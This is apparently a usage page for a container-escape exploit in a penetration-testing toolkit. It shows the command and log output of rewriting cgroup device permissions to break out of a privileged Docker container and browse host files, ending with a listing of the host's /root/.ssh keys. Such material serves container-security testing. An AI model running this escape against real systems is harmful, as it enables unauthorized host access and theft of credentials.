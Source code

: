 # Exploit: rewrite-cgroup-devices

Rewrite the `/sys/fs/cgroup/devices/devices.allow` in the current container to access files in the host to escape privileged containers.
重写当前容器内的 `/sys/fs/cgroup/devices/devices.allow`，逃逸特权容器访问宿主机内的文件。

## Usage
```
./cdk run rewrite-cgroup-devices
```

## Example 
```bash
➜  /tmp docker run -it -v /tmp:/tmp --cap-add="SYS_ADMIN" near/neo4j-test bash
# ./cdk run rewrite-cgroup-devices
2021/01/23 07:28:10 generate shell exploit: /tmp/rewrite-cgroup-devices-exp-dylqyn.sh
Execute Shell:/tmp/rewrite-cgroup-devices-exp-dylqyn.sh finished with output:
2021/01/23 07:28:10 get /sys/fs/cgroup/devices/devices.allow inode id: 955171887
2021/01/23 07:28:10 find cgroup devices.allow file: /sys/fs/cgroup/cgneartest/docker/c254a346291562776f08fd135c267e64eef0f6908578a9eebd97274d543a865f/devices.allow
2021/01/23 07:28:10 get virtblk device ID: 252
2021/01/23 07:28:10 generate shell exploit: /tmp/device-mknod-cmezii.sh
Execute Shell:/tmp/device-mknod-cmezii.sh finished with output:
2021/01/23 07:28:12 now, run 'debugfs cdk_mknod_result' to browse host files.

# debugfs cdk_mknod_result
debugfs 1.42.13 (17-May-2015)
debugfs:  ls -l /root/.ssh
 393231   40700 (2)      0      0    4096 22-Nov-2020 15:59 .
  52566   40550 (2)      0      0    4096 23-Jan-2021 07:27 ..
 395870  100600 (1)      0      0     746 29-May-2020 06:11 authorized_keys
 395829  100644 (1)      0      0     247  7-Aug-2020 07:01 config
 395860  100644 (1)      0      0     725 16-Dec-2020 10:53 known_hosts
 393227  100600 (1)      0      0    1675 22-Nov-2020 15:59 id_rsa
 395831  100644 (1)      0      0     391 22-Nov-2020 15:59 id_rsa.pub
```
